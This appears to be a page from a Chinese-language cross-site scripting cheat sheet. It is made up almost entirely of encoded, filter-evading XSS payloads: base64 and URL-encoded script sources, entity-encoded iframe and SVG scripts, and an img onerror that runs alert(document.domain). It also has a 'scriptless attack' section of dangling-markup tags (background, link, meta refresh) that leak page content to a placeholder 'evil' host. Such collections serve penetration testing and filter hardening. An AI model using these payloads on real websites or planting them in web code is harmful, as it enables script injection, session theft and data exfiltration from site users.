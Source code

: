 #### **带 base64 和 URL 编码的脚本 src 内的数据协议**

```
<script src=data:text/javascript;base64,%59%57%78%6c%63%6e%51%6f%4d%53%6b%3d></script>
```

#### **Iframe srcdoc HTML 编码**

```
<iframe srcdoc=&lt;script&gt;alert&lpar;1&rpar;&lt;&sol;script&gt;></iframe>
```

#### **带有 HTML 和 URL 编码的 Iframe JavaScript URL**

```
<iframe src="javascript:'&#x25;&#x33;&#x43;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x25;&#x33;&#x45;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;&#x25;&#x33;&#x43;&#x25;&#x32;&#x46;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x25;&#x33;&#x45;'"></iframe>
```

#### **带 unicode 转义和 HTML 编码的 SVG 脚本**

```
<svg><script>&#x5c;&#x75;&#x30;&#x30;&#x36;&#x31;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x63;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x35;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x32;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x34;(1)</script></svg>
```

#### **采用 base64 编码的 Img 标签**

```
<img src=x onerror=location=atob`amF2YXNjcmlwdDphbGVydChkb2N1bWVudC5kb21haW4p`>
```

**背景属性**

```
<body background="//evil? <table background="//evil? <table><thead background="//evil? <table><tbody background="//evil? <table><tfoot background="//evil? <table><td background="//evil? <table><th background="//evil?
```

### **无脚本攻击**

#### **链接 href 样式表**

```
<link rel=stylesheet href="//evil?
```

#### **链接 href 图标**

```
<link rel=icon href="//evil?
```

```
<meta http-equiv="refresh" content="0; http://evil?
```
